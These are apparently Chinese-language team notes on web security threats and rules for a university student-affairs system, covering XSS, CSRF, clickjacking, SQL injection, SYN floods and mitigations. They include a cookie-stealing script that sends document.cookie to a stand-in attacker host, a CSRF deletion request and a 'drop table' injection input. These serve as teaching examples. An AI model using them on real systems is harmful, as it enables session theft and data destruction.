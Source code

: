 #安全

##引言

互联网时代的数据安全与个人隐私受到前所未有的挑战，各种新奇的攻击技术层出不穷。安全问题分为两种，一种是正在运行的业务具有被破坏的风险，另一种是用户信息的泄露。我们握有用户的重要信息，务必要保证这些信息的安全。

安全是一个持续的过程。

## 同源策略与跨源资源共享

浏览器对于DOM、Cookie、XMLHttpRequest(Ajax)使用同源策略，但是script、img、iframe、link等标签均可以跨域获取资源。另外HTML 5可以实现XMLHttpRequest的跨域请求（CSP）。

##XSS攻击

###实施方案

恶意js代码

<div><script>干了很多坏事</script></div>

1. 劫持并修改页面

通过劫持路由器等方案，修改页面并向其中加入恶意js代码。

2. 网站漏洞

例如写一篇包含恶意js代码的文字存入学工系统，之后所有浏览该段文字的用户，都会在浏览器中执行该段代码。

###利用方式

1. 劫持cookie

恶意代码如下

var img = document.createElement("img");

img.src = "http://www.坏蛋.公司/log?" + escape(document.cookie);

document.body.appendChild(img);

这条请求会在远程服务器上留下一条带有cookie信息的记录。如果将Cookie设置为HttpOnly，可以防止被读取。

2. 在用户页面执行get或者post请求

例如我们只需要让学工管理员看待带有如下恶意代码的页面，即可删掉一篇帖子

var img = document.createElement("img");

img.src = "http://学工接口地址?m=delete&id=帖子的id"
document.body.appendChild(img);

类似的可以构造post请求。

3. XSS钓鱼

利用恶意js代码伪造一个登陆界面。

4. 识别用户浏览器、是否有ActiveX（可能会让用户机器中木马）等

5. 通过window.name对象在网页不同的tab间传递信息

## 跨站点请求访问

管理员在登录学工系统后，访问了另一个页面，其中包含一条连接。

`<img src="http://学工接口地址?m=delete&id=帖子的id" />`

则帖子被删除。

## 点击劫持

通过劫持路由器等方案，将一个层覆盖到原有的网页上。

## 注入攻击

var city = Reuqest.form("city");

var sql = "select * from order where ciry='" + city + "'";

此时，如果用户输入的是

beijing; drop table xxx;

则数据表被删除。

## 访问控制

有些访问没有进行权限控制，用户猜到URL即可看到内容。

## DDos

伪造大量的源IP地址，分别向服务器发送大量的SYN包，此时服务器收不到回应并等待一个SYN time，如果伪造的包数量非常多，则服务器会消耗过多的资源在这些连接上，无法服务于正常的用户。

## 盗链

## 业务安全

产品中使用了不正确的逻辑，例如只允许单点登录且只允许在客户端修改密码，则盗号者可以不停的登录，不给被盗者修改密码的机会。

## TSL/SSL

可以保证数据的完整性、机密性。EV SSL证书更佳。


## 法律法规

// TODO 高校相关产品是否有哪些信息可以披露的法律法规。

## 数据消密

## 安全规章

白名单机制、最小权限机制

1. 只开发用于服务的端口，不得使用如将SSH端口由22改为2222的方式来规避；

2. 所有服务器软件从Ubuntu内置源下载，不得使用第三方包；

3. 所有的输入都需要过滤，使用白名单策略，不应该包含script标签，更应该注意SQL过滤；

4. 部分输出应该过滤，将字符转为HtmlEncode和JavaScriptEncode;

`& --> &amp;`
